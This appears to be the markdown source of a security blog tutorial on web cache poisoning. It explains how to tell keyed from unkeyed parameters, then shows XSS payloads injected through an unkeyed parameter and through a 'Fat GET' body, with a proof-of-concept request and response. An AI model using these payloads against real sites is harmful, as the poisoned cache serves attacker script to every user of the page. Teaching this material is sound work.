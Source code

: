 ```yaml
---
title: "Introduction to Cache Poisoning Attacks"
date: 2025-02-19
draft: false
description: "Introduction into Cache Poisoning Attacks"
cover: "/posts/intro-to-cache-poisoning/feature.png"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">


## <i class="fa-solid fa-worm text-primary-400"></i> Terminology

### Keyed Parameters
<span class="text-primary-400">Keyed parameters</span> are parameters that the cache system considers when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will result in different cached entries</span>.

For example, if the URL has parameters such as `?user=123` and the cache is <span class="text-primary-400 font-bold">keyed</span> on this parameter, the cache will <span class="text-primary-400">store and serve different content</span>  (<span class="text-primary-400 font-bold">cache miss</span>) for `?user=123` and `?user=456`.

### Unkeyed Parameters
<span class="text-primary-400">Unkeyed parameters</span> are parameters that the cache system ignores when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will not result in different cached entries</span>. The cache will store only one version of the content (<span class="text-primary-400 font-bold">cache hit</span>), regardless of the variations in these parameters.

## <i class="fa-solid fa-magnifying-glass text-primary-400"></i> Identifying Unkeyed Parameters
The first step is to <span class="text-primary-400">identify unkeyed parameters</span>, since keyed parameters need to be the same when the victim accesses the resource.

### Example
Assume we open `example.com` on `/page` with the following parameters:

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

Since `example.com` uses caching and we are visiting the page for the first time, we will see a cache `MISS`:

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Now we <span class="text-primary-400">alter each parameter and check weather we get a cache miss or hit</span>. A cache `MISS` indicates us that this parameter is <span class="text-primary-400">keyed</span>, since the server loaded a new version of the website.

```HTTP
GET /page?user=guest&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

Now that we identified the <span class="text-primary-400">user parameter to be keyed</span>, let’s continue and check the tracking parameter. Before we change the tracking parameter, lets resent our initial request where we got a cache `MISS`, to verify that the sytem now cached it.

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Great. Now, let's alter the value of the tracking parameter to see whether we get a cache `MISS`, indicating a keyed parameter, or a `HIT` again, indicating an unkeyed parameter.

```HTTP
GET /page?user=admin&tracking=some-other-value HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

We can observe the tracking parameter must be a <span class="text-primary-400">unkeyed value</span>, since the cache always returns HIT, even though the value of the parameter was changed.

> The same thing also sometimes applies to header values in the HTTP requests.

## <i class="fa-solid fa-bullseye text-primary-400"></i> Exploitation
One of the <span class="text-primary-400">most common ways to exploit cache poisoning is through XSS</span>, though there are other attacks like DoS and unkeyed cookies. To exploit a XSS you have to <span class="text-primary-400">find an injection point using an unkeyed parameter</span>. The XSS will then be severed to all other users loading that cached version.

### Example
Imagine we have an injection via the tracking parameter into a meta tag like this:

```HTTP
GET /page?user=admin&tracking=https://mytrack.com HTTP/1.1
```

```HTML
...
<meta http-equiv="refresh" content="https://mytrack.com" />
...
```

As before, when sending the initial request to the server, we will receive a cache MISS. So let us inject a simple XSS payload via the unkeyed tracking parameter `"><img/src/onerror=print()>`.

{{< highlight HTML "linenos=false,hl_lines=3 8" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
    <meta http-equiv="refresh" content="https://"><img/src/onerror=print()> />
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Since <span class="text-primary-400">tracking is an unkeyed parameter</span>, anybody who visits the page `/page?user=admin` will be a victim of the XSS attack.


## <i class="fa-solid fa-user-ninja text-primary-400"></i> Advanced Techniques
There are multiple advanced things we can try to get and escalate a cache poisoning attack. However for now let us focus one just one of those, a <span class="text-primary-400">"Fat GET"</span>.

### Fat GET
A "Fat GET" request, is when <span class="text-primary-400">we use GET parameters in the post body, while still using the GET verb</span>. If a server is misconfigured it might parse the parameters from the body. With this you can try to create a discrepancy between the webserver and the cache. <span class="text-primary-400">With this we can also use keyed parameters, since they are no longer directly present in the URL</span>. We can then go back and perform an XSS attack the same way we did before.

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=guest
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

{{< highlight HTTP "linenos=false,hl_lines=4" >}}

GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=</p><img/src/onerror=print()><p>
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, </p><img/src/onerror=print()><p>!</p>
  </body>
</html>
{{< /highlight >}}

Again, if a victim now opens `example.com/page?user=admin` the XSS will be loaded from the cache.

## <i class="fa-solid fa-book text-primary-400"></i> A Real Life PoC
```HTTP
GET /?cb=100&"><image/src/onerror=print()> HTTP/2
Host: target-website.com
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36

HTTP/2 200 OK
CACHE: HIT
```

```HTML
...
<meta property="og:url" content="https://target-website.com/?cb=100&"><image/src/onerror=print()>">
...
```

In this example, an image tag with an `onerror` event is injected into the URL parameter. When the server processes this request, the parameter is reflected in the HTML response and cached. Consequently, subsequent users requesting the cached page will execute the malicious JavaScript.